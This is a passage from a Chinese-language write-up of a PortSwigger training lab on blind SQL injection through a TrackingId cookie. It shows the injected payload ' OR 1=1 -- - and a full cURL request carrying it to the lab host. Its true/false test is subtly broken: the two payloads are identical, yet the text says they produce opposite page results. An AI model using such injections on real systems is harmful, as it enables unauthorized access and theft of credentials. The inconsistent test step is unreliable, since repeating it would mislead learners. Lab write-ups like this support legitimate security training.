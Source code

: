 這樣就可以取得 administrator 的帳密進行登入


## [Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

### 題目敘述
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

### 題目解釋
這題要打的點在餅乾，然後是 Blind Based 的。

### 解答
按下 F12 觀察 `TrackingId` 的餅乾
![](https://i.imgur.com/XbFOy6U.png)

如果餅乾上輸入
```
' OR 1=1 -- -
```
F5 後，畫面會出現 `Welcome back!`

如果餅乾上輸入
```
' OR 1=1 -- -
```
則 F5 後，畫面上不會出現 `Welcome back!`

對著 Requests 選複製 cURL
![](https://i.imgur.com/5gqFVic.png)
```
curl 'https://ac081f6f1f4292d2c0304102009c0069.web-security-academy.net/' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: zh-TW,zh-HK;q=0.8,zh-CN;q=0.7,zh-SG;q=0.5,en-US;q=0.3,en;q=0.2' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H $'Cookie: TrackingId=\' OR 1=1 -- -; session=XA6OawbATmXMmsZQwTKYv2wuPixeVuuH' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: none' -H 'Sec-Fetch-User: ?1'
```

透過 https://curlconverter.com/ 轉成 Requests

